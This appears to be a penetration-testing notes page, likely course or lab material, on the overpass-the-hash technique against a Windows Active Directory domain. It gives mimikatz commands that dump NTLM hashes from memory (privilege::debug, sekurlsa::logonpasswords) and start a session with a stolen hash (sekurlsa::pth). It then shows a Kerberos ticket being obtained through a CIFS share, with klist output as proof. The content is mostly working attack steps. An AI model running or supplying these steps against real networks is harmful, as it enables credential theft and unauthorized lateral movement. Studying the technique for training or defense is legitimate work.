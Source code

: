 ### Overpass-the-Hash

For more info about this attack, see [here](../lateral-movement/overpass-the-hash.md).

{% tabs %}
{% tab title="1. Obtain NTLM" %}
```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
...
NTLM : 369def79d8372408bf6e93364cc93075
...
```
{% endtab %}

{% tab title="2. PtH" %}
Launch a session in the Kerberos ticket context of the target user.

{% code overflow="wrap" %}
```powershell
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
{% endcode %}
{% endtab %}

{% tab title="3. Auth" %}
Use a Kerberos-authenticated service, e.g. CIFS, to convert the NTML to a TGT.

{% code overflow="wrap" %}
```powershell
# List cached tickets
> klist
...
Cached Tickets: (0)

# Kerberos-based authentication service
> net use \\files04
The command completed successfully.

# List cached tickets
> klist
...
Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```